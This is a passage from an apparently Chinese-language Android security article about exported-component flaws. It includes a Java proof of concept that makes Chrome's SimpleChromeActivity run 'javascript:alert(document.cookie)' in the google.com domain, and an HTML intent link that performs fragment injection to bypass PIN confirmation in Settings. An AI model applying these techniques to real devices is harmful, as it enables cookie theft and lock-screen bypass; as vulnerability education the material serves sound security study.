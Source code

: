 Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 但是未设置 "android:exported" 为 "false". 恶意应用先调用该类并设置data为"[http://google.com](http://google.com)"
再次调用时设置data 为恶意js 例如'javascript:alert(document.cookie)', 恶意代码将在[http://google.com](http://google.com) 域中执行.

"com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过Android api或者am（activityManager）打开. POC如下

```
public class TestActivity extends Activity {
@Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent i = new Intent();
                ComponentName comp = new ComponentName(
                                 "com.android.chrome",
                                    "com.google.android.apps.chrome.SimpleChromeActivity");
                i.setComponent(comp);
                i.setAction("android.intent.action.VIEW");
                Uri data = Uri.parse("http://google.com");
                i.setData(data);

                startActivity(i);

                    try {
                        Thread.sleep(5000);
                        }
                          catch (Exception e) {}

                data = Uri.parse("javascript:alert(document.cookie)");  
                i.setData(data);

                startActivity(i);
    }
} 
```

### 案例4：隐式启动intent 包含敏感数据

暂缺可公开案例,攻击模型如下图。
![](androidac7.jpg)

### 案例5：Fragment注入(绕过PIN+拒绝服务)

Fragment 这里只提一下，以后可能另写一篇。

```
<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;
 launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
</a><br> 
```
